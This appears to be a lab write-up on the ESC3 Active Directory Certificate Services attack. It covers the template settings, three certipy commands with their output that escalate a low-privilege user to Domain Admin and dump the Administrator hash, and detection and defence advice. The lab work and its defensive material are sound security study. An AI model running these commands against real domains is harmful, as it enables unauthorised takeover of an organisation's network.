

# ESC3 — Enrollment Agent Certificate Chain

**Impact:** low-priv user → **Domain Admin**
**Lab status:** ✅ verified end-to-end (two-step chain)

---

## Concept

ESC3 abuses the **Certificate Request Agent** EKU (`1.3.6.1.4.1.311.20.2.1`), the
building block of Microsoft's "enroll on behalf of" feature. It is a **two-template
chain**:

- **Template A (`ESC3-CRA`)** issues an *Enrollment Agent* certificate to a
  low-priv user. Its EKU is Certificate Request Agent.
- **Template B (`ESC3-Enroll`)** is a client-auth template that **accepts an
  enrollment-agent signature** (`msPKI-RA-Signature = 1`,
  `msPKI-RA-Application-Policies = Certificate Request Agent`).

The attacker enrols A to become an "agent," then uses that agent certificate to
request B **on behalf of Administrator**. Unlike ESC1, the subject is built by the
CA from the *target account* — the agent's `-on-behalf-of` choice is what selects
the victim.



---

## Template configuration in the lab

| | `ESC3-CRA` | `ESC3-Enroll` |
|--|-----------|---------------|
| EKU | Certificate Request Agent `…311.20.2.1` | Client Authentication `…5.5.7.3.2` |
| Name flag | `SUBJECT_ALT_REQUIRE_UPN` (subject from AD) | `SUBJECT_ALT_REQUIRE_UPN` (subject from AD) |
| `msPKI-RA-Signature` | `0` | `1` |
| `msPKI-RA-Application-Policies` | — | Certificate Request Agent |
| Enroll rights | `LabUsers` | `LabUsers` |

> **Lab note:** neither template is enrollee-supplies-subject. If `ESC3-Enroll`
> were ESS, the on-behalf-of request would issue a certificate *with no identity*
> (`Got certificate without identity`) because nothing stamps the target's UPN.
> Building the subject from AD is exactly what makes the agent's choice decide who
> the certificate authenticates as.

---

## Exploitation

### Step 1 — obtain the Enrollment Agent certificate

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC3-CRA \
  -out agent
```

```
[*] Wrote certificate and private key to 'agent.pfx'
```

### Step 2 — enroll on behalf of Administrator

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC3-Enroll \
  -on-behalf-of 'ADESCRTL\administrator' -pfx agent.pfx \
  -out esc3admin
```

```
[*] Got certificate with UPN 'administrator@adescrtl.lab'
[*] Wrote certificate and private key to 'esc3admin.pfx'
```

### Step 3 — authenticate

```bash
certipy auth -pfx esc3admin.pfx -dc-ip 10.0.0.5
```

```
[*] Got TGT
[*] Got hash for 'administrator@adescrtl.lab':
    aad3b435b51404eeaad3b435b51404ee:9d6a0157f349c85398948b6a90a2b6e9
```

---

## Expected "failures" that are actually correct

- Requesting `ESC3-Enroll` **without** an agent signature returns
  `0x80094809 CERTSRV_E_SIGNATURE_POLICY_REQUIRED`. That is the RA-signature gate
  working — it *requires* the agent cert. Not a bug.

---

## Detection & defence

- Treat the **Certificate Request Agent** EKU as tier-0. Restrict which templates
  issue it and which accounts can enroll.
- Use **Enrollment Agent Restrictions** on the CA to limit which templates/targets
  an agent may act on.
- Monitor issuance of Certificate Request Agent certs and any on-behalf-of
  requests for privileged targets (event 4886/4887 with a request-agent policy).
